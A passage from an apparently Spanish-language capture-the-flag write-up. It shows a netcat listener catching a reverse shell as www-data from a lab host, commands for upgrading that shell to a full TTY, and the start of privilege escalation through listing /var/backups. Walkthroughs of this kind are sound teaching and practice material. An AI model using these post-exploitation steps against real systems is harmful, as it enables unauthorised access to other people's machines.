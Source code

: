 Ahora si entramos en el archivo que esta subida a la `web` y volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.4] from (UNKNOWN) [192.168.5.18] 52218
whoami
www-data
```

Vemos que ha funcionado, por lo que sanitizaremos la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user scpuser

Si listamos la siguiente ruta veremos lo siguiente:

```shell
ls -la /var/backups/
```

Info:

```
total 2024
drwxr-xr-x  2 root root    4096 May 16 08:15 .
drwxr-xr-x 12 root root    4096 Dec 15  2021 ..
-rw-r--r--  1 root root   30720 Dec 15  2021 alternatives.tar.0
-rw-r--r--  1 root root    9128 Dec 15  2021 apt.extended_states.0
-rw-r--r--  1 root root     990 Dec 15  2021 apt.extended_states.1.gz
-rw-r--r--  1 root root 1541366 May 16 08:15 backup.tar.gz
-rw-r--r--  1 root root       0 Dec 16  2021 dpkg.arch.0
-rw-r--r--  1 root root      32 Dec 15  2021 dpkg.arch.1.gz
-rw-r--r--  1 root root     186 Dec 15  2021 dpkg.diversions.0
-rw-r--r--  1 root root     126 Dec 15  2021 dpkg.diversions.1.gz
-rw-r--r--  1 root root     172 Dec 15  2021 dpkg.statoverride.0
-rw-r--r--  1 root root     120 Dec 15  2021 dpkg.statoverride.1.gz
-rw-r--r--  1 root root  354260 Dec 15  2021 dpkg.status.0
-rw-r--r--  1 root root   90231 Dec 15  2021 dpkg.status.1.gz
```
